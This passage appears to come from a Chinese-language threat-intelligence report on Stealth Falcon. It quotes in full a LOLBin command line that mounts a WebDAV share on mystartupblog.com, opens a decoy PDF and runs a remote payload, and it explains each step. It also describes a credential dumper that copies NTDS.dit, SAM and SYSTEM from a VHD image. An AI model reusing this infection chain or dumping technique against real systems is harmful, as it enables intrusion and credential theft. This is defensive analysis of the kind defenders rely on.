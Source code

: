 ```
"C:\Windows\system32\cmd.exe" ) ( ) ) ( ) ( ) ( ) cmd /c DeviceCredentialDep^loyment & cmd /V:ON /C "set EDITOR=chttpim& pushd \\mystartupblog.com@ssl@443\eQwcvcZIy&start /B https://mystartupblog.com/ePkNWY/deUsplnb.pdf&timeout8&@for^files /p c:\windows /m notepad.exe /c \\mystartupblog.com@ssl@443\eQwcvcZIy\Supplier0.8bps&popd"
```  
  
  
DeviceCredentialDeployment.exe 是一个 已知的 LOLBin，用于隐藏 CMD 窗口，因此它在后台运行：  
- cmd /V:ON /C 启用延迟环境变量扩展并运行以下命令。  
  
- set EDITOR=chttpim 将环境变量的 EDITOR 值设置为 chttpim。该值很可能稍后会在攻击者的脚本中使用。  
  
- pushd \\mystartupblog.com@ssl@443\eQwcvcZIy 将当前目录更改为网络位置 \\mystartupblog.com@ssl@443\eQwcvcZIy  
  
- start /B https://mystartupblog.com/ePkNWY/deUsplnb.pdf 在后台默认浏览器中打开诱饵 URL（/B 标志）。遗憾的是，我们发现该文件时，PDF 版本不可用。  
  
- Forfiles 是另一个 LOLBin，  如果条件匹配， 则执行命令/p c:\windows。在本例中 ，指定了查找特定文件的路径，并 /m notepad.exe 指定了具体文件。  
  
- /c \\mystartupblog.com@ssl@443\eQwcvcZIy\Supplier0.8bps 指定要执行的命令（因为 notepad.exe 总是会在 中找到 c:\windows)。该文件不可用，但我们假设它是一个提供下一阶段的脚本，并使用先前设置的 EDITOR 环境变量。  
  
- popd 返回 后的上一个目录 pushd。  
  
这个案例是另一个值得注意的例子，说明威胁行为者如何将多个 LOLBins 组合在一个依赖 WebDAV 的感染链中。  
  
入侵后工具集  
  
除了 Deadglyph的磁盘组件（其中大多数受 Themida/OLLVM 或两者保护）之外，我们最近还观察到一些与 Stealth Falcon 活动相关的、此前未记录的工具。在本节中，我们将对我们认为最有趣的工具进行分析。  
  
DC 凭证转储器  
  
该组件由类似Horus的加载器部署。它使用Code Visualizer进行混淆，并手动映射 kernel32.dll 和 ntdll.dll注入， C:\Windows\System32\UserAccessBroker.exe将shellcode映射到进程中，然后执行。  
  
该工具相对简单，但它围绕一个有趣的概念构建：通过访问系统磁盘的 VHD 副本来窃取 Active Directory 和域控制器凭据相关文件，从而有效地绕过文件锁和标准安全保护。  
  
该凭证转储程序似乎旨在与另一个组件（我们尚未观察到）协同工作。它似乎以一个已被攻陷的域控制器为目标，依赖一个单独的模块在路径 处创建虚拟磁盘副本 C:\ProgramData\ds_notifier_0.vhdx。其 ds_notifier 命名约定模仿了合法趋势科技组件的命名约定。  
  
该转储程序专门针对以下文件：  
- Windows\NTDS\NTDS.dit  
  
- Windows\System32\Config\SAM  
  
- Windows\System32\Config\SYSTEM  
  
这些文件组合在一起后，攻击者可以提取、解密并滥用凭证——无论是离线攻击还是用于实时攻击。由于这些文件被系统进程主动使用和锁定，该工具可以通过在虚拟磁盘上操作来绕过这些限制。  
  
为了实现此目的，转储程序使用开源 .NET 库 DiscUtils 直接从 VHD（C:\ProgramData\ds_notifier_0.vhdx）读取并提取目标文件。然后，它使用 Gzip 压缩每个文件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAA7hVIa4AicUy1msJrIxYDY5Vavg1Sg8STORH3HtRY3JgkjONwGOic1nQ/640?wx_fmt=webp&from=appmsg "")  
  
图 24 – 使用 DiscUtills 库从虚拟磁盘读取文件。  
  
提取后，该工具将所有输出文件捆绑到一个压缩的 ZIP 文件中，并保存为 C:\ProgramData\ds_notifier_2.vif.  
  
值得注意的是，该凭证转储程序不包含任何 C2 或泄露机制，并且可能依赖于其他组件来检索或泄露生成的档案。  
  